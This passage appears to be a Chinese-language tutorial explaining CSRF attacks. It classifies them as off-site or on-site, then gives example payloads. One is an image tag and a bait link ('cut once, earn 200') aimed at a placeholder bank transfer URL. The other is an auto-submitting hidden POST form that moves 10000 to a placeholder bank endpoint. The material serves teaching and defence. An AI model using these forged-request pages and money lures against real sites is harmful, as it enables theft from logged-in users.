 
---


## 六、分类：

> 
<h3>站外攻击：</h3>
因为考虑到用户体验感，就不会将用户限制的死死的，一定会开放一部分功能供使用，攻击者在站外构造脚本伪造请求，用户在攻击者构造的网站中触发伪造请求时，强制用户客户端就会发起请求（一般是在同一浏览器，而且某一用户登录上的未退出的网站）


<h3>站内攻击：</h3>
如果开发人员滥用$_REQUEST 类变量，以Post提交的数据表单，也支持Get传参。攻击者把预测的请求参数上传到站内贴子或留言的图片链接里，当用户浏览了含有请求参数的页面就强制发出这些请求。



### 站内攻击：

---


## 七、举例：

### Get提交方法：

> 
在你精心构造网页的事件里面，添加一些要求用户执行相关请求行为的链接
&lt;a href="转款URL"&gt;砍一刀立赚200块&lt;/a&gt;
这个标签把，也可以在其他里面，就是看哪里点击概率大
&lt;img src="URL"&gt;
……


&lt;meta charset='utf-8'&gt;
&lt;img src='./1.jpg'&gt;&lt;br /&gt;
&lt;img src='URL/bank/action.php?
username=xxx&amp;money=10000&amp;submit=%E4%BA%A4%E6%98%93'
alt='砍一刀赚200，这不冲'&gt;

&lt;meta&gt;：可提供有关页面的元信息，位于头部。在 HTML 中，没有结束标签。  在 XHTML 中，必须被正确地关闭。
charset：编码
username、money：都是可能的参数名
alt：替代文本

<h3>Post提交方法：</h3>
post提交，一般都是提交到服务器的一些重要的东西
也可以在构造的网页里面有一个让别人容易相信的表单等post提交方法（不涉及很多私密东西）
用户提交post请求后，然后触发post伪造请求用户自己登录过的网站服务器，执行……

&lt;meta charset='utf-8'&gt;
&lt;form name='csrf' action='URL/bank/action.php' method='post'&gt;
&lt;input type='hidden' name='xxxx' value='xxxx'&gt;
&lt;input type='hidden' name='money' value='10000'&gt;
&lt;/form&gt;
&lt;script&gt;document.csrf.submit()&lt;/script&gt;
&lt;img src="./1.jpg" &gt;&lt;br /&gt;
